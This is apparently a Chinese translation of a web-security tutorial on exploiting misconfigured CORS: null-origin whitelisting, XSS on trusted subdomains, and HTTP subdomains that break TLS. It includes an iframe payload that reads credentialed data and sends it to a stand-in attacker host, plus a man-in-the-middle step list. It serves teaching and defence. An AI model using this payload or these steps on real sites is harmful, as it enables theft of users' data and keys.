 某些应用程序可能会将`null`源列入白名单以支持应用程序的本地开发。例如，假设一个应用程序接收到以下跨域请求：

`GET /sensitive-victim-data Host: vulnerable-website.com Origin: null`

服务器响应：

`HTTP/1.1 200 OK Access-Control-Allow-Origin: null Access-Control-Allow-Credentials: true`

`null`在这种情况下，攻击者可以使用各种技巧来生成包含Origin 标头 中的值的跨域请求。这将满足白名单，导致跨域访问。例如，这可以使用以下`iframe`形式的沙盒跨域请求来完成：

`<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script> var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','vulnerable-website.com/sensitive-victim-data',true); req.withCredentials = true; req.send(); function reqListener() { location='malicious-website.com/log?key='+this.responseText; }; </script>"></iframe>`

### 通过 CORS 信任关系 [利用 XSS](https://portswigger.net/web-security/cross-site-scripting/exploiting)

即使是“正确”配置的 CORS 也会在两个来源之间建立信任关系。如果网站信任易受跨站点脚本 ( [XSS](https://portswigger.net/web-security/cross-site-scripting) ) 攻击的来源，则攻击者可以利用 XSS 注入一些 JavaScript，该 JavaScript 使用 CORS 从信任易受攻击的应用程序的站点检索敏感信息。

鉴于以下请求：

`GET /api/requestApiKey HTTP/1.1 Host: vulnerable-website.com Origin: https://subdomain.vulnerable-website.com Cookie: sessionid=...`

如果服务器响应：

`HTTP/1.1 200 OK Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com Access-Control-Allow-Credentials: true`

然后，发现 XSS 漏洞的攻击者`subdomain.vulnerable-website.com`可以使用它来检索 API 密钥，使用如下 URL：

`https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>`

### 使用配置不当的 CORS 破坏 TLS

假设严格使用 HTTPS 的应用程序还将使用纯 HTTP 的受信任子域列入白名单。例如，当应用程序收到以下请求时：

`GET /api/requestApiKey HTTP/1.1 Host: vulnerable-website.com Origin: http://trusted-subdomain.vulnerable-website.com Cookie: sessionid=...`

应用程序响应：

`HTTP/1.1 200 OK Access-Control-Allow-Origin: http://trusted-subdomain.vulnerable-website.com Access-Control-Allow-Credentials: true`

在这种情况下，能够拦截受害者用户流量的攻击者可以利用 CORS 配置来破坏受害者与应用程序的交互。此攻击涉及以下步骤：

-   受害者用户发出任何普通的 HTTP 请求。
-   攻击者将重定向注入到：
    
    `http://trusted-subdomain.vulnerable-website.com`
-   受害者的浏览器遵循重定向。
-   攻击者拦截纯 HTTP 请求，并返回包含 CORS 请求的欺骗响应：
    
    `https://vulnerable-website.com`
-   受害者的浏览器发出 CORS 请求，包括来源：
    
    `http://trusted-subdomain.vulnerable-website.com`
-   应用程序允许该请求，因为这是一个列入白名单的来源。请求的敏感数据在响应中返回。
-   攻击者的欺骗页面可以读取敏感数据并将其传输到攻击者控制的任何域。
